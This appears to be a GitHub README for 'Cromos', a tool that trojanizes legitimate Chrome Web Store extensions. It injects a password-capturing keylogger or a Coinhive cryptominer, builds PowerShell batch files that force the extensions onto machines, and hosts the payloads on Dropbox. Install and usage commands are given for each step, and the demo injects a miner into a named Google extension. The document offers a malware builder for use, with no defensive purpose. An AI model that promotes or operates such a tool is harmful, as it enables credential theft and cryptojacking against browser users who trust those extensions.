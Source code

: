# Cromos 

Cromos is a tool for downloading legitimate extensions of the Chrome Web Store and inject codes in the background of the application and more cromos create executable files to force installation via <strong>PowerShell</strong> for example, and also upload files to dropbox to host the malicious files.

  - Download extension
  - Injections
  - Upload files on dropbox
  

  
  ### Demo
  This is a demonstration of the tool at work in this examples I'm downloading a famous Google extension called G Suite Training on Google Chrome Web Store and injecting a mining module.
  
  
<a href="https://asciinema.org/a/2kLKxkIkxXcN7oyzVq1ywndKt?autoplay=1"><img src="https://asciinema.org/a/2kLKxkIkxXcN7oyzVq1ywndKt.png"/></a>
  
  ### Installation
  
```
$ cd $HOME/
$ git clone https://github.com/fbctf/cromos
$ sudo chmod -R 777 cromos/
$ cd cromos && python setup.py
```
 ### Usage
 ##### Downloading the extension
 ```
Usage: python cromos.py --extension {id}
 ```
 ##### Downloading the extension and loading module
 
 ```
Usage: python cromos.py --extension {id} --load {currency/keylogger}
```
 ##### Build a batch file and upload the files in dropbox
 
 ```
 Usage: python cromos.py --extension {id} --load {keylogger/currency} --build {bat} --token {token}
 ```

 
 
### Modules
You can also inject some predefined modules in the background as <strong>keylogger</strong>, <strong>virtual currency</strong>.

Module | Description
--------|------------
modules/keylogger | This module captures all the passwords you type in an infected browser over https or not.
modules/currency | This module allows you to mine virtual coins using the coinhive API, you just need to have an account.
